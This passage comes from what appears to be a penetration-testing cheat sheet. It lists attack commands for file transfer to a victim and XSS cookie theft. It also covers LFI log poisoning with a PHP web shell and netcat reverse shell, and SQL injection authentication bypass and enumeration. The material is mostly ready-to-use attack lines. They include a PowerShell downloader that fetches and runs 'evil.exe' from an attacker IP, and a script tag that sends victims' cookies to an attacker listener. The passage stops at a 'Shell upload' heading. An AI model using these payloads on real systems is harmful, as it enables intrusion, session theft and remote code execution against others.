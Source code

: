 	echo $url = "http://<[IP]>/<[FILE]>" >> wget.ps1
	
	echo $file = "evil.exe" >> wget.ps1
	
	echo $webclient.DownloadFile($url,$file) >> wget.ps1
	
	powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
	
<b>Debug.exe utility</b> (In Windows 32bit OS - Works only for file < 64Kb)

On attacker machine:

	cp <[FILE]> .

	upx -9 <[FILE]> (for compression)
	
	cp /usr/share/windows-binaries/exe2bat.exe .
	
	wine exe2bat <[FILE]> <[FILE.txt]>

On victim machine:

	Paste the content of <[FILE.txt]>
	
# XSS

<b>Stole cookie from xss:</b>
	
	On attacker machine set listener (nc -nlvp <[PORT]>)
	
	On victim website <script>new Image().src="http://<[IP]>:<[PORT]>/test.php?output="+document.cookie;</script>

# LFI/RFI

	Connect via netcat to victim (nc -nv <[IP]> <[PORT]>) and send <?php echo shell_exec($_GET['cmd']);?>, after that try to include log file for code execution.

	&cmd=nc -nv <[IP]> <[PORT]> -e cmd.exe&LANG=../../../../../../../xampp/apache/logs/access.log%00
	
# SQL Injection

<b>Bse:</b>

	any' or 1=1 limit 1;-- 

<b>Number of columns:</b>
	
	order by 1, order by 2, ...

<b>Expose data from database:</b>
	
	UNION select 1,2,3,4,5,6

<b>Enum tables:</b>

	UNION select 1,2,3,4,table_name,6 FROM information_schema.tables

<b>Shell upload:</b>
